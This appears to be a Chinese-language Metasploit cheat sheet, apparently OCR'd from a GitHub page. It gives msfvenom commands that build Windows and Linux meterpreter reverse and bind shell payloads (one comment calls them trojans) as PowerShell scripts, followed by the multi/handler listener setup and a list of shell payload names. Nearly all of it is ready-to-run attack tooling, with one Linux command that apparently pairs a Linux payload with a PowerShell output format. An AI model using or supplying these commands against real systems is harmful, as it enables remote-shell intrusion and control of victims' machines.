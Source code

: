 ```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<本机ip地址> LPORT=<本机监听端口> -f psh-reflection  -o xx.ps1
//生成64位系统木马：
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<本机ip地址> lport=<本机监听端口> -f psh-reflection  -o xx.ps1
```



## 正向连接：

- linux:

```
msfvenom -p linux/x86/meterpreter/bind_tcp LHOST=<本机ip地址> LPORT=<本机监听端口> -f psh-reflection  -o xx.ps1
```

- windows:

```
msfvenom -p windows/meterpreter/bind_tcp LHOST=<本机ip地址> LPORT=<本机监听端口> -f psh-reflection  -o xx.ps1
```



## 启用exploit/multi/handler模块：

```
use exploit/multi/handler 
```



## 设置PAYLOAD：
- linux：

```
linux/x86/meterpreter/reverse_tcp  //反向payload
linux/x86/meterpreter/bind_tcp       //正向payload
linux/x86/shell_bind_tcp
linux/x86/shell_reverse_tcp
linux/x64/shell_reverse_tcp
linux/x64/shell_bind_tcp
```

- windows:

```
windows/meterpreter/reverse_tcp    //反向payload
windows/meterpreter/bind_tcp         //正向payload
windows/shell_reverse_tcp
windows/shell_bind_tcp
windows/x64/meterpreter/reverse_tcp
windows/x64/meterpreter/bind_tcp
windows/x64/shell_reverse_tcp
windows/x64/shell_bind_tcp
```
